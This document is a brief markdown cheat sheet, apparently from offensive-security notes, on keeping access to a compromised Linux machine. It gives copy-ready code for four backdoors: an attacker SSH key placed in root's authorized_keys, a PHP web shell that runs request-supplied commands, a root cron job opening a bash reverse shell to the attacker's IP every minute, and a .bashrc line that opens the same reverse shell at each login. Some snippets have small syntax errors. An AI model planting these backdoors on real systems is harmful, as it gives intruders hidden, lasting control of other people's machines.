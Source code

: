 [back](/README.md)
### ssh backdoor

The ssh backdoor essentially consists of leaving our ssh keys in some user’s home directory.

1. generate ssh-keygen
```
ssh-keygen
```
2. go to /root.ssh and leave our public key there with name `authorized_keys`

---
### php backdoor

1. put php code inside /var/www/html as file shell.php
```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```
2. go to link http://<ip>/shell.php and execute command:
```
http://<ip>/shell.php?cmd=id
```

---
### cron job backdoor

1. create reverse_shell.sh
```
cat > reverse_shell.sh << EOF
#!/bin/bash
bash -i >& /dev/tcp/<your ip>/4444 0>&1
```
2. add reverse_shell.sh to execute every minute
```
echo "* * * * * root /path/to/reverse_shell.sh >> /etc/crontab
```

---
### bashrc backdoor

```
echo 'bash -i >& /dev/tcp/<your ip>/4444 0>&1' >> ~/.bashrc
```
every time user logs in, reverse_shell gets executed